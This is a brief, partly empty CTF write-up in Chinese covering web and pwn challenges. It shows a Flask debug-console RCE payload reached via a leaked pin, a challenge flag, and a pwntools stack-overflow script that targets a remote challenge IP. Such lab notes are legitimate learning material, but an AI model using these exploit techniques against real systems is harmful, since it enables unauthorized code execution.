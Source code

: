# web
### where-are-the-cookies
>[!description]
Tom is feeling especially snacky during the CTF, can you find where the cookies are?
Note: This challenge works best on Chrome

express+nginx1.25.1
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230805223931.png)
我tm哪知道cookies在哪

---


### debugzero
#flask
猜到了路由 `/console`,flask pin值在css文件里,直接可以进入
console rce
`__import__('os').popen('whoami').read();`


### realworld
moectf{Information-leakage-Is-dangerous!

# reverse

# pwn
### Easy Peasy
vuln函数里有gets,一眼栈溢出
漏洞函数
```c
void __cdecl vuln()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  gets(buf);
}
```

```python
from pwn import *
#local
#sh = process("./ret2text")
#remote
sh=remote('3.110.66.92',32075)
win = 0x4017E53
sh.sendline(b'A'*40 + p64(win))
sh.recvline()         
```
感觉一点问题没有,,,

# crypto

# Misc


---
# *相关wp*




2023-08-05   21:05